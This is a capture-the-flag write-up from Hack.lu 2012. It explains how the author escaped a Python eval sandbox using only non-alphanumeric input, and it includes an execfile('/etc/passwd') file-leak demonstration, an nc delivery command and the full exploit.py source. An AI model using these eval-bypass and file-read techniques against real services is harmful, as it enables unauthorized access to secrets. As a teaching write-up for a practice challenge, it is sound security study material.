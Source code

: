 ```yaml
---
title: '[writeup] Hacklu 2012 – Challenge #13 &#8211; The Sandbox Terminal'
author: w00d
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358964
kopa_newsmixlight_total_view:
  - 1
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2012'
  - CTF
  - Hacklu
---
```

**Solved by w00d @ clgt  
***Thanks **g4mm4** for giving many suggestions and draft the first version of the exploit  
*

> 13 &#8211; The Sandboxed Terminal (400)
> 
> Since the zombie apocalypse started people did not stop to ask themselves how the whole thing began. An abandoned military base may lead to answers but after infiltrating the facility you find yourself in front of a solid steel door with a computer attached. Luckily this terminal seems to connect to a Python service on a remote server to reduce load on the small computer. While your team managed to steal the source, they need your Python expertise to hack this service and get the masterkey which should be stored in a file called key.
> 
> https://ctf.fluxfingers.net:2076/c7238e81667a085963829e452223b47b/sandbox.py

In this ctf, I bumped into a few python challenges. Though having been using it for a while, I&#8217;m still a novice and pretty much ill-prepared, it took me a lot of time to read articles about python security. There are many interesting ones which I might write in a separate blog, however they do not help me much to solve this challenge, the only thing they help is to keep me motivated.

The python program consists of two parts:

- First part is the Detangle class which basically make a &#8220;sandbox&#8221; environment:

1.  You can not import anything.
2.  You can neither use &#8220;open&#8221; nor &#8220;file&#8221; command.
3.  It prints some nice debug information about what python command is executed and their arguments.

- Second part allows you to input 3 params: num1, num2 and operator. There are two regular expressions to check your input:

<pre class="brush: plain; title: ; notranslate" title="">num_pattern = re.compile(r'^[d]{0,4}$')
operator_pattern = re.compile(r'^[W]+$')
...
if not num_pattern.match(num1) or not num_pattern.match(num2):
    raise SystemExit('Number rejected')
if not operator_pattern.match(operator) or len(operator) &gt; 1900:
    raise SystemExit('Operator rejected')
</pre>

1.  num1, num2 should only be number, 4 digits at most.
2.  operator should not contain any alphanumeric characters and its length must be at most 1900.

These input will be fed into some eval command as follow:

<pre class="brush: plain; title: ; notranslate" title="">operator = eval(operator) if "'" in operator else operator
print(eval(num1 + operator + num2))
</pre>

For example, you can input &#8220;1&#8243; , &#8220;2&#8243; , &#8220;+&#8221;. The program will return &#8220;3&#8243;, simple as that.

Obviously, if someone tells you to exploit this program, first is to look at &#8220;eval&#8221; (i.e. &#8220;evil&#8221;) and try to exploit that. But it&#8217;s a difficult task because you can&#8217;t bypass the two regular expressions and input any python code, recall that you can only input number or non-alphanumberic character.

I tried several attempts and failed including some silly: trying to write a valid python code using unicode character, trying to overflow eval, trying to exploit Detangle, find a 0-day/1-day of re.match, ..  
But failures teach you some lessons. I noticed that &#8220;operator&#8221; is eval-ed twice. That means after the first eval, we may be able to convert some non-alphanumberic character into python code and get it executed on the next one.

I started with this gadget: s = `"(''=='')+(''=='')"`(inside are two single quotes). Run eval(s) in a python terminal will return you number &#8220;2&#8243;. Using this gadget/similar kind we typically can create any number. Progress: 25% !

Now what about character ? It turned out that I can use backstick : \` \` as repr() which can give me some string that contains alpha-character, such as : `` `(''=='')` `` => &#8220;True&#8221;, `` `(''!='')` `` => &#8220;False&#8221;, moreover I can access each single character using square bracket : `` `(''=='')`[1] `` => &#8216;r&#8217;, or even better `` `'xaa'`[3] `` => &#8216;a&#8217;. We now can create any of these:** &#8216;abcdefxTruFls&#8217;**. Progress: 50% !

I stopped looking at gadget, and started looking at how to bypass the Detangle class. It&#8217;s not hard as it look, though we can&#8217;t use &#8220;open&#8221; or &#8220;file&#8221; to open a file, can&#8217;t import anything, we can still use the built-in **&#8220;execfile&#8221;**. It does not allow us to run abitrary command but we can leak some info about the content of a file like this:

> >>> execfile(&#8220;/etc/passwd&#8221;)  
> Traceback (most recent call last):  
> File &#8220;&#8221;, line 1, in  
> File &#8220;/etc/passwd&#8221;, line 1  
> root:x:0:0:root:/root:/bin/bash  
> ^  
> SyntaxError: invalid syntax

Progress: 75% !!!!! \*\* so excited \*\*

I need to read the file &#8216;key&#8217; which makes the payload: &#8220;**+execfile(&#8216;key&#8217;)+**&#8220;. As you can see, It contains &#8220;k&#8221;,&#8221;y&#8221;,&#8221;i&#8221; that is not in my &#8220;magic&#8221; list. Luckily the force is with me, 5 minutes after seeing this problem, I come up with this awesome gadget: `"%c"%(107)` => &#8220;k&#8221;. Any character can be generated using this gadget, however producing the number 107 can consume a lot of characters if done naively.

The last thing is to make the payload as short as possible because the operator length is limited at 1900. Putting everything together, I am able to produce a 1650-bytes payload, far smaller than the limit! Now see how it work:

> python exploit.py | nc ctf.fluxfingers.net 2060  
> &#8230;  
> Traceback (most recent call last):  
> File &#8220;./sandbox.py&#8221;, line 77, in  
> print(eval(num1 + operator + num2))  
> File &#8220;./sandbox.py&#8221;, line 45, in \_\_call\_\_  
> result = self.orig(\*args, \**kwargs)  
> File &#8220;&#8221;, line 1, in  
> File &#8220;./sandbox.py&#8221;, line 45, in \_\_call\_\_  
> result = self.orig(\*args, \**kwargs)  
> File &#8220;key&#8221;, line 1, in  
> dafuq\_how\_did\_you\_solve\_this\_nonalpha_thingy  
> NameError: name &#8216;dafuq\_how\_did\_you\_solve\_this\_nonalpha_thingy&#8217; is not defined

Mission accomplished ! Beer time =]

**exploit.py** source code:

<pre class="brush: plain; title: ; notranslate" title="">def makenumsmall(d):
	gadget = "(''=='')"
	rs = gadget

	if (d==0): return rs+"-"+rs
	if (d==1): return rs+"*"+rs

	for i in range(1,d): rs += "+(''=='')"
	return rs

def makenum(d):
	if (d&lt;5): return makenumsmall(d)
	a = bin(d)[2:]
	index = len(a) - 1
	s = ""
	for c in a:
		if c == '1':
			s+= "("+makenumsmall(1)+"&lt;&lt;"+makenumsmall(index)+")+"
		index-=1
	return s[0:-1]

def makechar(line):
	return "('%'+`'"+chr(0xcc)+"'`["+str(makenum(3))+"])["+str(makenum(0))+":"+str(makenum(4))+"]%(" + makenum(line) + ")"

gd = {}

gd['x'] = "`'"+chr(0xcc)+"'`["+makenum(2)+"]"
gd['a'] = "`'"+chr(0xaa)+"'`["+makenum(3)+"]"
gd['b'] = "`'"+chr(0xbb)+"'`["+makenum(3)+"]"
gd['c'] = "`'"+chr(0xcc)+"'`["+makenum(3)+"]"
gd['d'] = "`'"+chr(0xdd)+"'`["+makenum(3)+"]"
gd['e'] = "`'"+chr(0xee)+"'`["+makenum(3)+"]"
gd['f'] = "`'"+chr(0xff)+"'`["+makenum(3)+"]"

a = "+execfile('key')+"
solo = [ord(i) for i in a]
#print solo
_sum = ''
import re
for line in solo:
	if chr(line) in gd:
		_gad = gd[chr(line)]
	elif chr(line) == "'":
		_gad = "'\''"
	elif re.match("W",chr(line)):
		_gad = "'"+chr(line)+"'"
	else:
		_gad = makechar(line)
	_sum += "+" + _gad

_sum = _sum[1:]
#print len(_sum)
#print eval(eval(_sum))
print "1n1n"+_sum
</pre>